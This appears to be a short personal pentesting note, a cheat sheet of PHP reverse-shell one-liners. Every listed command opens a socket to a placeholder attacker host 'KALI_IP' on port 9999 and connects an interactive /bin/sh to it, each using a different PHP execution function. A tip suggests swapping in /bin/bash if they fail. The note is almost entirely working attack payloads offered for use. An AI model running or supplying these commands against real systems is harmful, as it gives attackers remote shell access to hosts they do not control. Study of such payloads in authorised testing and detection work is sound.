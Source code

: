```yaml
---
title: 
tags:
---
```

## Command Line

```bash
php -r '$sock=fsockopen("KALI_IP",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
```

^cba9ae

```bash
php -r '$sock=fsockopen("KALI_IP",9999);shell_exec("/bin/sh <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);`/bin/sh -i <&3 >&3 2>&3`;'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);system("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);passthru("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

>[!tip] 
>If there are issues with these try switching out `/bin/sh` with `/bin/bash`

---
